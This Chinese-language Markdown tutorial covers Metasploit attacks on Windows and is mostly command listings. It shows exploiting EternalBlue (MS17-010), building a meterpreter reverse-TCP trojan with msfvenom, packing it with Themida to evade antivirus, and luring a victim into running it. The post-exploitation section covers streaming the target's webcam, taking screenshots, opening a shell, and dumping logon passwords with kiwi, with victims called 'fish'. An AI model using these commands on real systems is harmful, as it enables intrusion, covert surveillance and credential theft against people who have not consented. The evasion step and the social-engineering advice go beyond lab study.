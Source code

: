 # Metasploit 渗透工具

https://www.metasploit.com/

> 简称MSF

kali中打开终端 & 输入 `msfconsole`

![](./images/02-Metasploit-1706774645060.png)

msf使用法则：`使用模块` -> `配置模块必选项` -> `运行模块`

### eg: metasploit 攻击 windows 操作系统

metasploit通过永恒之蓝病毒漏洞攻击流程

```shell
msfconsole

# 搜索漏洞，微软安全公告：https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2017/ms17-010
search ms17

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue

# 查看必选项 （required为yes的）
show options

# 设置必选项 
# RHOSTS：攻击谁
set RHOSTS 172.16.20.xx
# LPORT：在kali上开启的端口（1-65535），注意不要被占用
set LPORT 10001

# 运行模块，完成攻击
run
```

### msfvenom生成远程木马控制电脑

如果系统没有漏洞呢，可以生成木马文件，诱导对方执行

```shell
# 1、生成远控木马   msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=172.16.20.99 LPORT=10000 -f exe -o demo.exe

# 2、主控端 -- 开启监听
msfconsole
use exploit/multi/handler
show options
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 172.16.20.99
set LPORT 10000
# 等待目标靶机上线
run

# 3、等待目标靶机触发上面生成的木马文件 demo.exe
```

#### 加壳免杀

msfvenom生成的远控木马会被一些安全管家软件查杀，可以通过加壳免杀 

下载`Themida` https://www.oreans.com/download.php
直接将文件拖进去即可...
![](./images/02-Metasploit-1706780924800.png)
![](./images/02-Metasploit-1706780945530.png)

然后会生成`demo_protected.exe`，这个文件便可免杀

---

运行.exe木马文件后，便可监听到上线的鱼儿
![](./images/02-Metasploit-1706781104773.png)

然后就可以控制目标靶机进行一系列操作了... 你懂的....

```shell
# 看看能干些啥事情
help

# 看看对方有没有摄像头
webcam_list
# 如果有的话，可以打开摄像头
webcam_stream

# 截屏
screenshare

# 执行各种命令
shell
# 解决命令行乱码问题
chcp 65001

# kiwi抓取密码 -- 我这里测试失败
load kiwi
kiwi_cmd sekurlsa::logonpasswords
```

![](./images/02-Metasploit-1706781339305.png)
